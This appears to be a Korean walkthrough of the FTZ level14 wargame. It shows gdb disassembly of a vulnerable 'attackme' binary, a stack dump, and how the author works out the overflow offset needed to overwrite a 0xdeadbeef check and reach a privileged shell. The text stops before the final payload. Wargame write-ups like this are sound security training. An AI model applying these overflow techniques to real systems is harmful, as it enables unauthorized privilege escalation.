 ```sh
[level14@ftz tmp]$ gdb -q attackme 
(gdb) disass main
Dump of assembler code for function main:
0x08048490 <main+0>:	push   %ebp
0x08048491 <main+1>:	mov    %esp,%ebp
0x08048493 <main+3>:	sub    $0x38,%esp
0x08048496 <main+6>:	sub    $0x4,%esp
0x08048499 <main+9>:	pushl  0x8049664
0x0804849f <main+15>:	push   $0x2d
0x080484a1 <main+17>:	lea    0xffffffc8(%ebp),%eax
0x080484a4 <main+20>:	push   %eax
0x080484a5 <main+21>:	call   0x8048360 <fgets>
0x080484aa <main+26>:	add    $0x10,%esp
0x080484ad <main+29>:	cmpl   $0xdeadbeef,0xfffffff0(%ebp)	; "check" 변수 비교문에 브레이크 포인트
0x080484b4 <main+36>:	jne    0x80484db <main+75>
0x080484b6 <main+38>:	sub    $0x8,%esp
0x080484b9 <main+41>:	push   $0xc17
0x080484be <main+46>:	push   $0xc17
0x080484c3 <main+51>:	call   0x8048380 <setreuid>
0x080484c8 <main+56>:	add    $0x10,%esp
0x080484cb <main+59>:	sub    $0xc,%esp
0x080484ce <main+62>:	push   $0x8048548
0x080484d3 <main+67>:	call   0x8048340 <system>
0x080484d8 <main+72>:	add    $0x10,%esp
0x080484db <main+75>:	leave  
0x080484dc <main+76>:	ret    
0x080484dd <main+77>:	lea    0x0(%esi),%esi
End of assembler dump.
(gdb) b *main+29
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/level14/tmp/attackme 
AAAA

Breakpoint 1, 0x080484ad in main ()
```

자 이제 스택을 확인한다.

```sh
(gdb) x/20x $esp
0xbfffec20:	0x41414141	0x4213000a	0xbfffec48	0x08048471
0xbfffec30:	0x08049560	0x08049668	0x4001582c	0x080483be
0xbfffec40:	0x08048308	0x42130a14	0xbfffec58	0x0804831e
0xbfffec50:	0x4200af84	0x42130a14	0xbfffec78	0x42015574
0xbfffec60:	0x00000001	0xbfffeca4	0xbfffecac	0x4001582c
```

이제 스택을 보면 현재 `0xbfffec60`에 있는 `0x1`은 argc 라는 것을 알 수 있다. 장족의 발전이라 믿는돠
스택을 계산하면 `RET(0xbfffec5c)` 까지 SFP를 제외하고 56 byte 인 것을 확인할 수 있다.

실제 쉘을 획득하기 위해 다음과 같이 실행하면 스택가드 기능을 하는 조건문을 우회하여 획득이 가능하다.
